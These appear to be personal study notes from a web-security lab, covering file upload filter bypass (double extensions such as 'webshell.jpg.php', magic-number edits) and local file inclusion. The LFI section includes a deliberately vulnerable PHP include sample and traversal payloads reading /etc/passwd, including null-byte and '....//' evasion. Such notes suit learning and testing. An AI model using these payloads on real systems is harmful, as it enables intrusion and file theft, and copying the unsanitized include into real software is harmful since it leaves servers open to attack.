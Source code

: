 >first step, google alternate extensions e.g. https://en.wikipedia.org/wiki/PHP

The key to bypassing any kind of server side filter is to enumerate and see what is allowed, as well as what is blocked; then try to craft a payload which can pass the criteria the filter is looking for.

append a file type e.g. `webshell.jpg.php`
collect a burpsuite capture to delete the filter either *before* the page loads *or before* the file is uploaded

### Bypassing using magic numbers

- use nano to add "A" the correct number of times to the start of the file
- use hexeditor to change those characters to magic numbers associated to the target file type

---

# Local File Inclusion (LFI)

### Steps for testing for LFI

1. Find an entry point that could be via GET, POST, COOKIE, or HTTP header values!  
2. Enter a valid input to see how the web server behaves.
3. Enter invalid inputs, including special characters and common file names.
4. Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
5. Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
6. Understand the input validation and if there are any filters!
7. Try the inject a valid entry to read sensitive files


The function `include` is insecure without sanitization 
```php
<?PHP 
	include($_GET["lang"]);
?>
```
`http://webapp.thm/index.php?lang=EN.php`
use **this** to find files 
`http://webapp.thm/get.php?file=/etc/passwd
OR use:
`http://webapp.thm/get.php?file=../../../../etc/passwd`
if you can find directories

use NULL BYTE in the URL to bypass file casting 
`%00

an extra dot in the directory address refers to the current directory.
`http://webapp.thm/index.php?lang=/etc/passwd/.

....//....//....//....//....//etc/passwd

if the web application asks to supply input that has to include a directory such as: `http://webapp.thm/index.php?lang=languages/EN.php` then, to exploit this, we need to include the directory in the payload 
`?lang=languages/../../../../../etc/passwd
